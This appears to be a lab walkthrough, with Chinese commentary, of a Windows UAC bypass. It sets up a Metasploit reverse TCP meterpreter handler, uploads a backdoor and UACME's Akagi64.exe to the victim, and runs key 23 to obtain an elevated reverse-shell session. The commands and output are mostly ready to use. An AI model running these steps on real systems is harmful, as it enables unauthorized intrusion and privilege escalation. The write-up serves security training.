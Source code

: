 ```
root@attackdefense:~# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.21.2
LHOST => 10.10.21.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.21.2:1234 


```

在目标的C:\创建Temp目录，并且将akagai和后门上传到Temp目录。

```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\
meterpreter > pwd
C:\
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp
meterpreter > upload /root/backdoor.exe
[*] uploading  : /root/backdoor.exe -> backdoor.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/backdoor.exe -> backdoor.exe
[*] uploaded   : /root/backdoor.exe -> backdoor.exe
meterpreter > upload /root/Desktop/tools/UACME/Akagi64.exe
[*] uploading  : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] Uploaded 194.50 KiB of 194.50 KiB (100.0%): /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] uploaded   : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe

```

利用Akagi64.exe key 23执行backdoor.exe，可以绕过UAC，获得管理员权限的meterpreter session。

```
C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe
.\Akagi64.exe 23 C:\Temp\backdoor.exe

```

执行上述命令后，在multi handler获得了meterpreter session。

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.21.2:1234 
[*] Sending stage (175174 bytes) to 10.0.28.179
[*] Meterpreter session 1 opened (10.10.21.2:1234 -> 10.0.28.179:49425) at 2022-09-28 16:05:04 +0530
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs
```